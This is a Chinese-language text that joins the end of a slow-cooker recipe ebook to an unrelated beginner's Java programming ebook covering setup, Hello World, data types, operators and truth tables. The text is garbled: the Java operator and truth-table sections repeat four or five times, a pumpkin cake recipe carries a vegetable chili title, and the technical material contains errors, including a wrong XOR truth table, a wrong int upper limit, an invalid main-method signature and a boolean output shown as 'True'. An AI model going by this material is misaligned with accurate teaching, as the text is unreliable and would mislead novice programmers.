- 低火烹饪 4 到 5 小时。

## 食谱 4：慢锅浓汤

这绝对是你吃过的最好吃的海鲜浓汤之一。

你需要：

- 250 克虾仁
- 250 克蟹肉
- 150 克墨西哥腊肠，切片
- 150 克培根，切丁丁
- 3 瓣大蒜，切末
- 半杯芹菜
- 一罐西红柿
- 一杯青椒
- 1 个小洋葱，切碎

如何准备：

- 热锅，加油并将培根和墨西哥腊肠煎褐。将它们放入慢锅炉中。
- 添加剩余食材并充分搅拌。烹饪 8 到 10 小时。上菜并享用！

## 食谱 5：奶酪金枪鱼面

面条中的鱼无疑是健康美味的。

你需要：

- 250 克金枪鱼肉，切块
- 1 个小洋葱，切碎
- 半杯胡萝卜丝
- 半杯番茄酱
- 1 ½ 杯番茄酱
- 半茶匙干罗勒
- 一小撮盐和胡椒
- 1 根芹菜，切碎
- 一 茶匙糖

# 如何准备：

- 将所有食材放入慢锅中。
- 盖上盖子让其烹饪 6 到 7 小时。如果需要，可以加水稀释酱汁。
- 淋在面条上——意大利面、宽面等。享受享用！

# 第 6 章 – 慢锅蔬菜食谱

蔬菜应该始终出现在你的饮食中。将烤得完美的土豆搭配热气腾腾且美味的烧烤总是一件美事。或者，蔬菜本身也可以作为正餐的核心。这里是一些你可以用慢锅烹饪的蔬菜食谱：

## 食谱 1：奶油奶士玉米

这道玉米食谱是你烤肉菜肴的完美搭配。它非常好吃，你甚至可以单独吃。

你需要：

- 500 克玉米米粒（冷冻）
- 半杯牛奶
- 半杯黄油
- 240 克奶油奶士
- 盐和胡椒粉
- 1 匙糖

如何准备：

- 在慢锅中混合所有食材。
- 盖上盖子，低火烹饪 4 到 6 小时，或高火烹饪 2 到 3 小时。
- 盛出并享用！

## 食谱 2：蔬菜炖

这是一道非常简单的蔬菜炖，可以节省你坐在厨房里花费的几个小时时间。只需混合所有食材，去处理你的家务或休息一下，然后品尝它的美味。

你需要：

- 250 克黑豆，浸泡 6 到 8 小时
- 1 杯生藜麦
- 1 杯切碎的甜椒
- 1 个头洋葱，切丁
- 4 瓣大蒜，压碎
- 2 到 3 根烟熏辣椒（干）
- 2 罐小切丁番茄罐
- 半茶匙肉桂粉
- 一小把新鲜香菜碎，切碎
- 一小撮盐和胡椒粉

如何准备：

- 将除盐以外的所有食材放入慢锅中，并充分搅拌。
- 低火烹饪 8 到 10 小时，或高火烹饪 4 到 6 小时。
- 煮好后加入盐。撒上你喜爱的配料，如牛油果、香菜或柠檬角。享用！

> 提示：最后再加盐，因为可能会影响豆类的烹饪。

## 食谱 3：地中海风味蔬菜咖

这是一道风味浓郁的蔬菜菜，最好淋在北斯库小米上。

你需要：

- 3 杯土豆块
- 5 杯切块的番茄
- 1 杯甜椒
- 1 个大洋葱，切碎
- 5 根秋葵，斜切成 1 英寸厚的片
- 2 到 3 匙咖喱粉
- 2 瓣大蒜，切末
- 半茶匙辣椒辣椒粉
- 1 杯原味酸奶

如何准备：

- 在锅中混合所有食材并充分搅拌。
- 低火烹饪 8 到 10 小时。
- 搭配热气腾腾的北斯库小米，顶部淋上酸奶、葡萄干或水果风味的辣酱。

享用！

## 食谱 4：经典蔬菜辣汤

大家一定会喜欢这道经典的蔬菜辣汤食谱。它非常适合家庭晚餐之夜，甚至在家举办派对时使用。

你需要：

- 400 克红豆
- 400 克素食豆
- 1 罐黑豆汤
- 400 克番茄泥
- 1 罐整颗玉米粒
- 1 杯绿椒
- 1 个大洋葱，切碎
- 3 瓣大蒜，切末
- 3 根芹芹茎，切碎
- 1 匙罗勒叶（干）
- 1 匙牛里香粉
- 1 匙辣椒粉
- 盐和胡椒粉

如何准备：

- 将所有食材放入慢锅，留着盐不放。
- 高火烹饪 2 小时或低火烹饪 4 小时。
- 煮好后用盐调味。享用！

## 食谱 5：慢锅朝鲜菊

这道朝鲜菊食谱在工作日的晚上吃非常完美。这道菜食谱很容易做：

你需要：

- 4 到 5 朵朝鲜菊
- 3 汤匙柠檬汁
- 半汤匙盐

如何准备：

- 彻底洗净朝鲜菊并去掉茎。
- 切掉约 1 英寸的顶部，放入慢锅中。
- 将柠檬汁与盐混合并加入一些水。
- 低火烹饪 8 小时。
- 蘸融化的黄油食用味道最好。

# 第 6 章 – 慢锅甜点

谁能想到你实际上可以使用慢锅来制作诱人的甜点呢？

## 食谱 1：慢锅桃子肉桂甜点

这款桃子甜点可以满足对甜食的渴望。

你需要：

- 2 到 3 杯桃子（冷冻）
- 1 茶匙香草精
- 1/3 杯红糖
- 3 汤匙黄油（融化）
- 250 克蛋糕粉
- 1 匙肉桂粉

如何准备：

- 在锅内涂上一层黄油。
- 加入蛋糕粉，并将红糖淋在桃子上。
- 高火烹饪 4 小时或低火烹饪 10 小时。享用！

## 食谱 2：慢锅巧克力蛋糕

巧克力蛋糕是经典的甜点，你可以轻松地用慢锅制作它。

你需要：

- 2 杯多筋面粉
- 1 杯可可粉
- 2 杯糖
- 2 茶匙小苏打
- 1 匙香草精
- 1 1/2 杯牛奶
- 3 汤匙植物油
- 1 杯热水

如何准备：

- 在其中一个碗中混合所有干原料，在另一个碗中混合所有湿性原料。
- 将湿性原料加入干原料中，并倒入。
- 将面糊倒入锅中。
- 低火烹饪 3 到 4 小时。让蛋糕静置 20 到 40 分钟。享用！

## 食谱 3：香料坚果苹果 Delight

这款苹果食谱非常好吃，最好搭配打发奶油或冰淇淋一起吃。

你需要：

- 6 个苹果，去核去皮，切碎
- 1/3 杯红糖
- ½ 杯白糖
- 1/3 杯黄油
- 1 杯面粉
- 1 茶匙肉桂粉
- ½ 茶匙肉豆蔻
- 1 匙盐
- 一 杯核桃，切碎
- 2 汤匙柑橘汁

如何准备：

- 在碗中混合红糖、一半白糖、肉桂粉和肉豆蔻。
- 用叉子拌入面粉和黄油。加入核桃。
- 将苹果放入锅中，倒入一些柑橘汁。撒上带有核桃的混合物。
- 低火烹饪 4 小时，高火烹饪 2 小时。

## 食谱 4：经典蔬菜辣汤

大家一定会喜欢这道经典的蔬菜辣汤食谱。它非常适合家庭晚餐，甚至在家举办派对时使用。

你需要：

- 1 包黄色蛋糕粉
- 1 杯煮熟的南瓜
- 5 个鸡蛋
- 半杯水
- 3 汤匙植物油

蛋糕糖霜：

- 120 克软化奶士
- ¼ 杯黄油
- ½ 糖粉
- 半茶匙香草精

如何准备：

- 将南瓜捣碎并备用。
- 在碗中混合蛋糕粉、鸡蛋、植物油和水。快速搅拌 1 到 2 分钟。
- 将面糊倒入锅中，高火烹饪 2 小时。静置 10 到 15 分钟。将其切成两薄层。
- 在另一个碗中，混合黄油、奶士和香草。搅拌至光滑。慢慢加入糖粉。
- 抹在一层上面，加上另一层。
- 涂上糖霜。装饰上碎核桃。享用！

## 食谱 5：慢锅巧克力坚果糖

这可能是你做过的最好、最简单的慢锅甜点。

你需要：

- 500 克烤过的坚果——核桃/花生/腰果
- 400 克巧克力豆
- 4 块巧克力棒

如何准备：

- 将所有食材放入慢锅中。
- 低火烹饪 3 小时。静置至少 30 分钟。
- 充分搅拌并倒入蜡纸或饼干盘上。用勺子平分。
- 使用木铲铲起。享用！

## 结语

再次感谢下载这本书！

我希望这本书能帮助你充分利用书中提供的慢锅食谱。使用慢锅烹饪对你的日常生活绝对有裨益。

下一步是尝试本指南中的慢锅食谱，甚至尝试你自己创作的其他慢锅食谱。

最后，如果你喜欢这本书，我想请你帮个忙，在 Amazon 上为这本书留评价好吗？将不胜感激！

点击此处在 Amazon 上为这本书留言！

感谢并祝你好运！

# Java 训练营

# 在 2 周内学会 Java 编程基础

访问 KindleBookSpot.com 获取更多免费和实惠书籍

## 目录

引言

第一章：欢迎来到 Java 编程世界

第二章：“Hello Java”，初次邂逅

第三章：数据类型与变量

第四章：实用表格，随手备用

第五章：数学运算及其他事项

第六章：选择语句

结论

## 引言

我想感谢你的选择，并祝贺你下载了《在 2 周内学会 Java 编程基础》这本书。

本书包含了在两周内学习 Java 编程基础的经过验证的步骤和策略。在读完本书后，或者在学习过程中，通过在编写程序时应用所学知识，你应该能够创建简单的程序。

在跳到 Java 编程之前，具备基础计算机知识是非常重要的。如果你熟悉其他编程语言，也会很有帮助。你可以设计一个程序流并在不同的编程语言中使用它。这就像用英语写小说，然后将其翻译成不同的语言。然而，程序员之所以为设计的程序流选择特定的编程语言是有原因的。你可以说，每种编程语言都具有独特的特征，以满足程序员脑海中的输出需求。

Java 有许多用途，学习它并不困难。在学习编程语言时，通过示例学习总是更容易。请期待在本教程中看到大量的示例，并预计你将自己完成一些练习。我们将提供输出结果，以便你知道自己做得是否正确。

书中还将提供基础的 Java 编程语法，以及你应该避免用作变量名的保留字列表。

选择这本书作为你的 Java 编程基础学习，你会感到非常高兴。

再次感谢你下载本书，希望你读得愉快！

# 第一章：欢迎来到 Java 编程世界

Java 被认为是一种高级编程语言，旨在创建强大、安全的应用程序。它运行在各种平台或操作系统上，如 Windows、Mac OS X、Linux 和多个版本的 UNIX。Java 是一种以灵活性、可维护性和可扩展性而闻名的编程语言。

首先，你需要在计算机上安装 Java，或者你可以去这里进行在线编码。正如本电子书引言所述，你需要具备基础计算机知识。如果你熟悉特定的编程语言或 Java，也会有很大帮助。

## Java 简史

James Gosling 创立了太阳微系统公司。1991 年 6 月，Gosling 开始了 Java 语言项目。它最初被称为 Oak，后来改为 Green。最后，由于没有特殊原因被命名为 Java。Java 1.0 于 1995 年发布。目前的 Java 标准版是 Java SE8。

2007 年，Java 的核心代码作为免费开源软件发布，除了太阳微系统拥有版权的一小部分代码代码外。

## Java 的几个优势

Java 是面向对象的，这意味着在 Java 中一切都是对象。它可以轻松地进行扩展。

它还被认为是平台无关的，不像像 C 和 C++ 等大多数编程语言。当你编译 Java 时，你并不是将其编译成特定平台的机器码，而是将其编译成字节码（byte code）。该字节码在网络上传输，由虚拟机对其进行解释。

Java 简单，易于学习。然而，你最好对面向对象编程（OOP）概念有更深入的理解，这样会更容易掌握 Java。面向对象编程相对于过程化编程的主要优势之一是，它允许程序员创建不同的模块，即使添加了新类型的对象，这些模块也不需要修改。当你学习 Java 编程的同时增强关于 OOP 的知识时，你会有更深入的理解。

Java 具有安全性特征；它能够帮助你创建一个防篡改、无病毒的系统。

Java 编译器可以生成架构中性的对象文件格式。编译代码可以在带有 Java 运行系统的许多处理器上执行。这使得 Java 具有可移植性。

Java 是动态的；许多程序员认为它实际上比 C++ 或 C 更具动态。Java 能够有效地适应任何环境。

Java 还有其他优势，当你学习 Java 编程并获得更多关于 OOP 之美的知识时，你将发现它们。

## 开启 Java 编程世界之旅所需的物品

你需要一台至少由 Intel Core2Duo 处理器驱动的计算机，并且至少有 1GB 的内存。这些实际上实际上是你今天能买到的大多数计算机的最基础（甚至更低）配置。如果你可以在计算机上玩游戏，那么它的性能对于 Java 编程来说绰绰有余。你的你的操作系统（OS）应该是 Windows XP、Windows 7、Windows 8 或 Linux。本书提供了上述平台的设置路径，尽管建议使用提供的在线编码链接以便立即开始学习。

如果你选择在计算机上安装 Java，你需要选择 Java JDK8。

你还需要微软 记事本（Notepad）或其他文本编辑器。

### 本地环境

如果你想为 Java 编程设置本地环境，你需要访问此链接免费下载 Java，确保选择与你的操作系统兼容的版本。

在为你的操作系统选择了正确的 Java 后，按照指令正确下载 Java 并运行“.exe” 文件，这将允许你在计算机上安装 Java。安装完成后，你需要为你特定平台设置路径（path）。

### Windows 路径

假设你已经在计算机上成功安装了 Java，当你尝试查看目录时，它看起来像这样：

```
c:\Program Files\java\jdk
```

将光标置于“我的电脑”上并点击它。打开后，右键点击它并选择“属性”（位于选项的底部）。

在“高级”选项卡下，你会看到一个名为“环境变量”的按钮，你需要点击它。

接下来你需要修改“Path”变量。它需要包含 Java.exe 的路径。如果你当前的路径设置为：

C:\WINDOWS\SYSTEM32，你需要将路径更改为：

C:\WINDOWS\SYSTEM32;c:\Program Files\java\jdk\bin

## Linux, UNIX, FreeBSD 路径


你需要设置环境变量`PATH`，以正确指向 Java 二进制文件的安装位置。如果你在设置路径时遇到困难，可以参考你的 shell 文档。

例如，如果你使用`bash`，你需要添加`export PATH=/path/to/java:$PATH`，它看起来像这样：

```
.bashrc: export PATH=/path/to/java:$PATH
```

## 流行的 Java 编辑器

过去的编程语言不需要文本编辑器，不像大多数现代编程语言，但 Java 编程需要使用一个编辑器。有许多先进的 IDE（集成开发环境）可用于你的 Java 编程。IDE 是一种为程序员提供软件创建或开发提供综合设施的软件应用程序。IDE 通常包括构建自动化工具、调试器和文本编辑器。

以下是你可以使用的流行的文本编辑器：

- 记事本 – 如果你的计算机运行在 Windows 上，你可以使用内置的记事本编辑器来编写代码。
- Netbeans - 实际上是一个 Java IDE，你可以从此链接免费下载。
- Eclipse - 是另一个由 eclipse 开源社区创建的 Java IDE。你可以从此链接免费下载。

一旦你准备就绪，我们就可以继续学习 Java 编程基础，这将帮助你更接近实现独立创建 Java 程序的目标。

## 第 2 章：“Hello Java”，初相

“Hello”程序是编程初学者学习的第一课，原因有很多。这个程序向你介绍了在开始编写程序时首先需要完成的几项基础工作，以及你需要学习和使用的一些语法。

为了保持统一，示例将使用在线编码（之前已提供该链接）。稍后你可以使用自己的`Java.exe`。实际的在线 Java 控制台会显示不同的字体颜色。只有当某个特定的命令或字符/符号需要详细解释时，我们才会在示例中使用不同颜色的字体。

## Hello Java，基础语法

请看下方的示例程序，我们将逐行进行分析：

```
public class FirstProgram {

  /* 这是第一个示例。

  * 我们将打印‘Hello Java’作为输出
  */

  public static void main(String []args) {

    System.out.println("Hello Java"); // prints Hello Java
9 }
10 }
```

顺便说一下，记住 Java 是区分大小大小的至关重要。在 Java 编程中，标识符`Hello`和`hello`是不相同的。请确保正确定义所有内容，并在整个程序中始终使用正确大小写的标识符。

第一行带有类名`FirstProgram`；不要在组成类名的单词之间留空格。类名中包含的下一个单词的首字母应该大写。你的程序应该始终以`public class`（全部小写）开头，后跟类名。你看到类名末尾的黄色括号了吗？别忘记也包含它。它作为一个标记，表示后面的内容是你的程序的代码。

你的程序文件名应与你分配的类名相同。保存文件名时，只需在文件名后添加`.java`。看看上面的示例。当你保存时，请写为`FirstProgram.java`。

第二行是空的，为了让代码更具可读性。

第三行以`*/`开头，第五行你有`*/`。当你需要包含多行注释时使用它们，编译器不会将其视为程序的一部分。你通常包含注释是为了简要解释程序，作为对你自己的某种提醒，或者帮助负责维护该程序的程序员。

第七行包含方法名，所有的方法名都应该写成小写。方法的名的写法始终如下所示：

```
public static void main(String [args]) {
```

方法名末尾的括号提示程序执行括号内的所有内容（在我们的示例中，括号位于第 9 行）。

在示例中，第 8 行包含一个命令，告诉程序在屏幕上打印`Hello Java`。命令句末尾应该有一个分号（`;`）。`//`符号是另一种注释，当你只需要进行单行注释时使用该符号。

`println`是告诉程序打印括号内内容的命令。

确保每个起始括号都有一个对应的结束括号。在示例中，第 1 行的起始括号在第 10 行有结束括号。第 7 行的起始括号在第 9 行有结束括号。

这里另一个：

| 1 public class FirstName { |
| 2 public static void main(String [args]) { |
| 3 System.out.println("Erika"); |
| 4 } |
| 5 |

它将产生此结果：

```
Erika
```

此外，确保正确缩进以使代码更具可读性。

你将在下一章学习更多关于数据类型和变量的知识。

# 第 3 章：数据类型和变量

在本章中，你将学习你将处理的不同数据类型，以及如何为变量赋值。你还将学习不应作为变量名的保留字。

## 整数型 (int)

整数是正数或负数。零也被视为整数。

在 Java 编程中，`int`是 integer 的缩写，你稍后会知道它的用法。如果你想打印整数，不需要将其包含在引号中。

看看这个程序：

```
1 public class IntPrinting {
2 public static void main(String []args) {
3 System.out.println(10);
4 }
5 }
```

它将产生此结果：

```
10
```

`int`数据类型只能接受 -2,147,483,648 到 2,147,483,648 之间的值。

只要你遵循如示例所示的正确语法，放在`System.out.println();`括号内的任何数字都将被打印出来。

## 布尔型 (true 或 false)

布尔型数据类型只能是`true`或`false`。它不会产生任何其他答案。你不需要将其放在引号中，因为程序将`true`和`false`识别为布尔类型的合法值。

看看示例程序：

```
1 public class BooleanPrinting {
2 public static void main(String [args]) {
3 System.out.println(true);
4 }
5 }
```

它将产生此结果：

```
True
```

尝试将括号内的`true`替换为`me`，如下：

```
1 public class BooleanPrinting {

2 public static void main(String []args) {

3 System.out.println(me);

4 }
5 }
```

它将产生此结果：

```
/tmp/java_FlX6ZW/BooleanPrinting.java:3: error: cannot find symbol

System.out.println(me);

^

symbol: variable me

location: class BooleanPrinting

1 error
```

它不识别`me`这个词，因为它是一个字符串。打印字符串时，你需要将其写在引号内。

## 字符型 (char)

字符或`char`数据类型表示单个字符。所有值必须包含在单引号中；否则你将得到错误消息。

看看下方的示例：

```
public class BooleanPrinting {
    public static void main(String [args]) {
        System.out.println('r');
    }
}
```

它将给出此结果：

```
r
```

`int`、`boolean`和`char`是 Java 的基本数据类型。你以后会遇到更多。

## 使用变量

在 Java 编程中，你可以将值存储在变量中，其他编程语言也有这样的功能。当你在 Java 中使用变量时，你需要指定数据类型。

以下是不应作为变量使用的 Java 保留列表：

| abstract | assert | boolean | break | long |
| byte | case | catch | char | private |
| class | const | continue | default | short |
| do | double | else | enum | switch |
| extends | final | finally | float | native |
| for | goto | | implements | new |
| import | instanceof | int | interface | package |
| transient | protected | public | return | super |
| synchronized | static | strictfp | throws | this |
| volatile | while | try | throw | void |

记住不要用大写开始你的变量，尽管你可以在变量名中使用大写，例如：

`int myFavoriteNumber = 10;`

你需要在开头写`int`来标识数据类型，`myFavoriteNumber`是变量名，`10`是赋值给它的值。

自己尝试：

- 1.`int`变量`mySampleNumber`必须 6。
- 2.`boolean`变量`mySampleAnswer`等于`true`。
- 5.`char`变量`mySampleLetter`等于`L`。

为每个变量分配指令要求的值。当你运行程序时，你不会看到值打印在屏幕上。如果你想打印这些值，你需要在程序中添加`System.out.println()`你将如何做？提示——每个你需要打印的变量必须有自己的`System.out.println()`确保编写正确的，它不应该是变量的真实值。

仅此一次，你需要在程序中添加这些行：

```
8 System.out.println(mySampleNumber);
9 System.out.println(mySampleAnswer);
10 System.out.println(mySampleLetter);
```

你将得到此输出：

| |
| true |
| L |

现在你准备好迎接更有挑战性但也更有成就感的课程了。

# 第4章：实用表格，随手可用

本章包含了你需要随手使用的不同表格，因为它们可以是你学习 Java 时的快速参考。如果你能快速记住它们，那会更好。

## Java 数值运算符

大多数编程语言对它们的数值运算符使用相同的符号。如果你已经熟悉某一种现代编程语言，那么你会发现 Java 数值运算符的符号与你熟悉的编程语言的符号大部分相同。

| JAVA 数值运算符 | | |
| 符号 | 操作数 | 示例 |
|---|---|---|
| + | 加法 | 8 + 7 |
| - | 减法 | 26 - 9 |
| * | 乘法 | 9*5 |
| / | 除法 | 81/3 |
| % | 取余 | 23%3 |

# Java 比较运算符（称为关系运算符）

如果你熟悉其他现代编程语言的比较运算符，那么记忆下面的表格将非常容易。

| JAVA 比较运算符 | | |
| 小于 | < |
| 小于等于 | <= |
| 大于 | > |
| 大于等于 | >= |
| 等于 | == |
| 不等于 | != |

## 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用时要小心。

| 布尔逻辑运算符 | | |
| 非 (NOT) | ! |
| 与 (AND) | && |
| 或 (OR) | \|\| |
| 异或 (EXCLUSIVE OR) | ^ |

# 真真值表

| ‘非’的真值表 | | |
| A | !A |
| 假 (False) | 真 (True) |
| 真 (True) | 假 (False) |

| ‘与’的真值表 | | | |
| E1 | E2 | E1 && E2 |
| False | False | False |
| False | True | False |
| True | False | False |
| True | True | True |

*E1 表示表达式 1，E2 表示表达式 2，这与其余表格相同。

| ‘或’的真值表 | | | |
| E1 | E2 | E1 \|\| E2 |
| False | False | False |
| False | True | True |
| True | False | True |
| True | True | True |

| ‘异或’的真值表 | | | |
| E1 | E2 | E1 ^ E2 |
| False | False | False |
| False | True | True |
| True | False | False |
| True | True | False |

如果你能立即记住这些表格表格更好，这样当你需要确认某些内容时就不需要查阅。你将在后续章节中需要这些表格。

# 第5章：数学计算及其他

是时候用 Java 的方式进行数学计算了。你可以加、减、乘、除并获取余数。这并不理解，一旦你开始编写自己的程序，你一定会喜欢这些数值运算符。如果你还没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 尝试 Java 加法

你可以创建一个像这样的程序：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3   System.out.println(5 + 9);
4 }
5 }
```

你也可以像这样使用变量：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3
```

```
4 int a = 5;
5 int b = 6;
6 System.out.println(a + b);
7
8 }
9 }
```

# 尝试 Java 减法及其他数学运算

将上面的示例转换为减法和其他数学运算。你可以减法、乘法、除法和取余。这并不困难，一旦你掌握了技巧，你会发现这些很容易。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 比较运算符

比较运算符也称为关系运算符。如果你熟悉其他现代编程语言的比较运算符，那么记忆下面的表格将会非常容易。

| JAVA 比较运算符 | | |
| 小于 | < |
| 小于等于 | <= |
| 大于 | > |
| 大于等于 | >= |
| 等于 | == |
| 不等于 | != |

## 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用时要小心。

| JAVA 逻辑 | | | |
| 非 (NOT) | ! |
| 与 (AND) | && |
| 或 (OR) | \|\| |
| 异或 (EXCLUSIVE OR) | ^ |

# 真值表

| ‘非’的真值表 | | |
| A | !A |
| 假 (False) | 真 (True) |
| 真 (True) | 假 (False) |

| ‘与’的真值表 | | | |
| E1 | E2 | E1 && E2 |
| False | False | False |
| False | True | False |
| True | False | False |
| True | True | True |

*E1 表示表达式 1，E2 表示表达式 2，这与其余表格相同。

| ‘或’的真值表 | | | |
| E1 | E2 | E1 \|\| E2 |
| False | False | False |
| False | True | True |
| True | False | True |
| True | True | True |

| ‘异或’的真值表 | | | |
| E1 | E2 | E1 ^ E2 |
| False | False | False |
| False | True | True |
| True | False | False |
| True | True | False |

如果你能立即记住这些表格更好，这样当你需要确认某些内容时就不需要查阅。你将在后续章节中需要这些表格。

# 第5章：数学计算及其他

是时候用 Java 的方式进行数学计算了。你可以加、减、乘、除并获取余数。这并不理解，一旦你开始编写自己的程序，你一定会喜欢这些数值运算符。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 尝试 Java 加法

你可以创建一个像这样的程序：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3   System.out.println(5 + 9);
4 }
5 }
```

你也可以像这样使用变量：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3
```

```
4 int a = 5;
5 int b = 6;
6 System.out.println(a + b);
7
8 }
9 }
```

# 尝试 Java 减法及其他数学运算

将上面的示例转换为减法和其他数学运算。你可以减法、乘法、除法和取余。这并不困难，一旦你掌握了技巧，你会发现这些很容易。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 比较运算符

比较运算符也称为关系运算符。如果你熟悉其他现代编程语言的比较运算符，那么记忆下面的表格将会非常容易。

| JAVA 比较运算符 | | |
| 小于 | < |
| 小于等于 | <= |
| 大于 | > |
| 大于等于 | >= |
| 等于 | == |
| 不等于 | != |

## 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用时要小心。


| 布尔逻辑 | 符号 |
| --- | --- |
| 非 (NOT) | `!` |
| 与 (AND) | `&&` |
| 或 (OR) | `||` |
| 异或 (EXCLUSIVE OR) | `^` |

# 真值表

| ‘非’的真值表 | |
| --- | --- |
| `A` | `!A` |
| 假 (False) | 真 (True) |
| 真 (True) | 假 (False) |

| ‘与’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 && E2` |
| False | False | False |
| False | True | False |
| True | False | False |
| True | True | True |

*`E1`表示表达式 1，`E2`表示表达式 2，这与其余表格相同。

| ‘或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 || E2` |
| False | False | False |
| False | True | True |
| True | False | True |
| True | True | True |

| ‘异或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 ^ E2` |
| False | False | False |
| False | True | True |
| True | False | False |
| True | True | False |

如果你能立即记住这些表格表格更好，这样当你需要确认某些内容时就不需要查阅。你将在后续章节中需要这些表格。

# 第5章：数学计算及其他

是时候用 Java 的方式进行数学计算了。你可以加、减、乘、除并获取余数。这并不理解，一旦你开始编写自己的程序，你一定会喜欢这些数值运算符。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 尝试 Java 加法

你可以创建一个像这样的程序：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3   System.out.println(5 + 9);
4 }
5 }
```

你也可以像这样使用变量：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3
```

```
4 int a = 5;
5 int b = 6;
6 System.out.println(a + b);
7
8 }
9 }
```

# 尝试 Java 减法及其他数学运算

将上面的示例转换为减法和其他数学运算。你可以减法、乘法、除法和取余。这并不困难，一旦你掌握了技巧，你会发现这些很容易。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 比较运算符

比较运算符也称为关系运算符。如果你熟悉其他现代编程语言的比较运算符，那么记忆下面的表格将会非常容易。

| JAVA 比较运算符 | 符号 |
| --- | --- |
| 小于 | `<` |
| 小于等于 | `<=` |
| 大于 | `>` |
| 大于等于 | `>=` |
| 等于 | `==` |
| 不等于 | `!=` |

## 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用时要小心。

| 布尔逻辑 | 符号 |
| --- | --- |
| 非 (NOT) | `!` |
| 与 (AND) | `&&` |
| 或 (OR) | `||` |
| 异或 (EXCLUSIVE OR) | `^` |

# 真值表

| ‘非’的真值表 | |
| --- | --- |
| `A` | `!A` |
| 假 (False) | 真 (True) |
| 真 (True) | 假 (False) |

| ‘与’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 && E2` |
| False | False | False |
| False | True | False |
| True | False | False |
| True | True | True |

*`E1`表示表达式 1，`E2`表示表达式 2，这与其余表格相同。

| ‘或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 || E2` |
| False | False | False |
| False | True | True |
| True | False | True |
| True | True | True |

| ‘异或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 ^ E2` |
| False | False | False |
| False | True | True |
| True | False | False |
| True | True | False |

如果你能立即记住这些表格表格更好，这样当你需要确认某些内容时就不需要查阅。你将在后续章节中需要这些表格。

# 第5章：数学计算及其他

是时候用 Java 的方式进行数学计算了。你可以加、减、乘、除并获取余数。这并不理解，一旦你开始编写自己的程序，你一定会喜欢这些数值运算符。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 尝试 Java 加法

你可以创建一个像这样的程序：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3   System.out.println(5 + 9);
4 }
5 }
```

你也可以像这样使用变量：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3
```

```
4 int a = 5;
5 int b = 6;
6 System.out.println(a + b);
7
8 }
9 }
```

# 尝试 Java 减法及其他数学运算

将上面的示例转换为减法和其他数学运算。你可以减法、乘法、除法和取余。这并不困难，一旦你掌握了技巧，你会发现这些很容易。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 比较运算符

比较运算符也称为关系运算符。如果你熟悉其他现代编程语言的比较运算符，那么记忆下面的表格将会非常容易。

| JAVA 比较运算符 | 符号 |
| --- | --- |
| 小于 | `<` |
| 小于等于 | `<=` |
| 大于 | `>` |
| 大于等于 | `>=` |
| 等于 | `==` |
| 不等于 | `!=` |

## 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用时要小心。

| 布尔逻辑 | 符号 |
| --- | --- |
| 非 (NOT) | `!` |
| 与 (AND) | `&&` |
| 或 (OR) | `||` |
| 异或 (EXCLUSIVE OR) | `^` |

# 真值表

| ‘非’的真值表 | |
| --- | --- |
| `A` | `!A` |
| 假 (False) | 真 (True) |
| 真 (True) | 假 (False) |

| ‘与’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 && E2` |
| False | False | False |
| False | True | False |
| True | False | False |
| True | True | True |

*`E1`表示表达式 1，`E2`表示表达式 2，这与其余表格相同。

| ‘或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 || E2` |
| False | False | False |
| False | True | True |
| True | False | True |
| True | True | True |

| ‘异或’的真值表 | | |
| --- | --- | --- |
| `E1` | `E2` | `E1 ^ E2` |
| False | False | False |
| False | True | True |
| True | False | False |
| True | True | False |

如果你能立即记住这些表格表格更好，这样当你需要确认某些内容时就不需要查阅。你将在后续章节中需要这些表格。

# 第5章：数学计算及其他

是时候用 Java 的方式进行数学计算了。你可以加、减、乘、除并获取余数。这并不理解，一旦你开始编写自己的程序，你一定会喜欢这些数值运算符。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 尝试 Java 加法

你可以创建一个像这样的程序：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3   System.out.println(5 + 9);
4 }
5 }
```

你也可以像这样使用变量：

```
1 public class AdditionProgram {
2 public static void main(String[] args) {
3
```

```
4 int a = 5;
5 int b = 6;
6 System.out.println(a + b);
7
8 }
9 }
```

# 尝试 Java 减法及其他数学运算

将上面的示例转换为减法和其他数学运算。你可以减法、乘法、除法和取余。这并不困难，一旦你掌握了技巧，你会发现这些很容易。如果你仍然没有记住 Java 中不同数值运算符的符号，可以随时回到第 4 章查看数值运算符表格。

## 比较运算符

比较运算符也称为关系运算符。如果你熟悉其他现代编程语言的比较运算符，那么记忆下面的表格将会非常容易。

| JAVA 比较运算符 | 符号 |
| --- | --- |
| 小于 | `<` |
| 小于等于 | `<=` |
| 大于 | `>` |
| 大于等于 | `>=` |
| 等于 | `==` |
| 不等于 | `!=` |

